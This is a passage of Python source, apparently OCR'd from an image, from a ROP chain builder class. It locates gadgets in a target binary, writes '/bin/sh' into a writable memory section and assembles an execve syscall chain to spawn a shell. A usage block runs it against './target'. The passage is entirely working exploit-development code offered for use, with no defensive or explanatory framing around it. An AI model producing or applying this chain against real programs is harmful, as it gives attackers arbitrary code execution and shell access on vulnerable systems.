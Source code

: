 ```python
            gadget = self.rop.find_gadget(['pop rsi', 'ret'])[0]
        elif reg == 'rdx':
            gadget = self.rop.find_gadget(['pop rdx', 'ret'])[0]
        else:
            raise ValueError(f"Unsupported register: {reg}")
        
        self.chain.extend([gadget, value])
    
    def call_function(self, func_addr):
        """Call function with current register state"""
        self.chain.append(func_addr)
    
    def write_memory(self, addr, value):
        """Write value to memory address"""
        # pop rax; ret
        pop_rax = self.rop.find_gadget(['pop rax', 'ret'])[0]
        # pop rbx; ret  
        pop_rbx = self.rop.find_gadget(['pop rbx', 'ret'])[0]
        # mov [rax], rbx; ret
        mov_gadget = self.rop.find_gadget(['mov qword ptr [rax], rbx', 'ret'])[0]
        
        self.chain.extend([
            pop_rax, addr,
            pop_rbx, value,
            mov_gadget
        ])
    
    def build_execve_chain(self, filename="/bin/sh"):
        """Build execve() system call"""
        # Find or create string
        try:
            str_addr = next(self.elf.search(filename.encode()))
        except StopIteration:
            # Need to write string to memory
            str_addr = 0x601000  # Writable section
            for i, char in enumerate(filename.encode() + b'\x00'):
                self.write_memory(str_addr + i, char)
        
        # Set up registers for execve
        self.set_register('rdi', str_addr)  # filename
        self.set_register('rsi', 0)         # argv = NULL
        self.set_register('rdx', 0)         # envp = NULL
        self.set_register('rax', 59)        # sys_execve
        
        # Find syscall gadget
        syscall = self.rop.find_gadget(['syscall'])[0]
        self.call_function(syscall)
    
    def get_chain(self):
        """Return the ROP chain as bytes"""
        return b''.join(p64(addr) for addr in self.chain)

# Usage
builder = ROPBuilder('./target')
builder.build_execve_chain()
rop_chain = builder.get_chain()
```
